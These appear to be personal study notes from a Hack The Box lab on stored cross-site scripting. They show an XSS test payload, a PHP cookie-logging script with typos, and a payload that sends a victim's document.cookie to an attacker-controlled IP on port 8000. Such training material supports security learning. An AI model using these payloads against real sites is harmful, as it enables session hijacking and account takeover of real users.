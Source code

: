 - for XSS to be able to result in session cookie leakage we will need :
    1. Session cookie to be carried in all HTTP requests .
    2. Session cookies should be accessible by Javascript code (the http only attribute should be missing ) .

[![](https://academy.hackthebox.com/storage/modules/153/20.png)](https://academy.hackthebox.com/storage/modules/153/20.png)

In such cases, it is best to use payloads with event handlers like `onload` or `onerror`  
since they fire up automatically and also prove the highest impact on  
stored XSS cases. Of course, if they're blocked, you'll have to use  
something else like `onmouseover`.

In one field , lets specify the following payload :

`"><img src=x onerror=prompt(document.domain)>`

- we want to learn how to obtain session cookies ..
    
    create( maliciouse profile ) then share ( lead to exploit)
    
    lets create a cookie logging script that → save it as log.php ( obtains victiim’s session cookie through sharing a vulerable to stored xss public profile
    
    ```
    <php
    $logFile = "cookieLog.txt";
    $cookie = $_REQUEST["c"];
    
    $handle = fopen($logFile, "a");
    fwrite($hanle, $cookie ."\n\n");
    fclose($handle);
    
    header("Location: http://www.google.com/");
    exit;
    ?>
    ```
    
    this php log script waits for any victum to request ?c=+document.cookie.
    
    then the script will collect the victums cookie for us that the victum just asked and requested .
    
    The cookie -logging script ( log.php) we just made → can be run as following :
    
    TUN Adapter IP is the tun interface’s IP .
    
    ```
    php -S < VPN / TUN Adapter IP > : 8000
    ```
    
    and the payload will be
    
    `<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>`
    
      
    
    **Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
    